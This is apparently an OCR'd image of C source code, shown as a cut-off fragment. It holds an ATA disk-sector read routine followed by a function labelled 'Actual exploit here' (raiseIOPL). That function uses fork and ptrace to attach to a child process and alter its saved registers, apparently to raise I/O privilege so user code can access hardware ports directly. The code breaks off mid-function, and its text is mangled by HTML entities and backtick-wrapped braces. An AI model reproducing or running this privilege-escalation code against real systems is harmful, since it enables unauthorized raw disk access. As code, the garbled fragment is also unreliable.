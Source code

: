 ```
`{`
    ATA_wait_BSY();
    port_byte_out(BASE + 6,0xE0 | ((LBA &gt;&gt;24) &amp; 0xF) | 0x10 /* drive 2 */);
    port_byte_out(BASE + 2,sector_count);
    port_byte_out(BASE + 3, (uint8_t) LBA);
    port_byte_out(BASE + 4, (uint8_t)(LBA &gt;&gt; 8));
    port_byte_out(BASE + 5, (uint8_t)(LBA &gt;&gt; 16));
    port_byte_out(BASE + 7,0x20); //Send the read command

    uint16_t *target = (uint16_t*) target_address;

    for (int j =0;j&lt;sector_count;j++)
    `{`
        ATA_wait_BSY();
        ATA_wait_DRQ();
        for(int i=0;i&lt;256;i++)
            target[i] = port_word_in(BASE);
        target+=256;
    `}`
`}`

static void ATA_wait_BSY()   //Wait for bsy to be 0
`{`
    while(port_byte_in(BASE + 7)&amp;STATUS_BSY);
`}`
static void ATA_wait_DRQ()  //Wait fot drq to be 1
`{`
    while(!(port_byte_in(BASE + 7)&amp;STATUS_RDY));
`}`

// Actual exploit here
void raiseIOPL() `{`
    int pid = fork();
    if (pid != 0) `{`
        int status;
        pid_t g_pid = pid;
        if (ptrace(PT_ATTACH, g_pid, 0, 0) == -1) `{`
            perror("attach");
            exit(-1);
        `}`

        if (waitpid(g_pid, &amp;status, WSTOPPED | WEXITED) != g_pid || !WIFSTOPPED(status)) `{`
            perror("waitpid");
            exit(-1);
        `}`

        if (ptrace(PT_SYSCALL, g_pid, 0, 0) == -1) `{`
            perror("syscall");
            exit(-1);
        `}`

        if (waitpid(g_pid, &amp;status, WSTOPPED | WEXITED) != g_pid || !WIFSTOPPED(status)) `{`
            perror("waitpid");
            exit(-1);
        `}`

        PtraceRegisters regs = `{``}`;
        if (ptrace(PT_GETREGS, g_pid, &amp;regs, 0) == -1) `{`
            perror("getregs");
            exit(-1);
        `}`

        regs.cs = 3;
```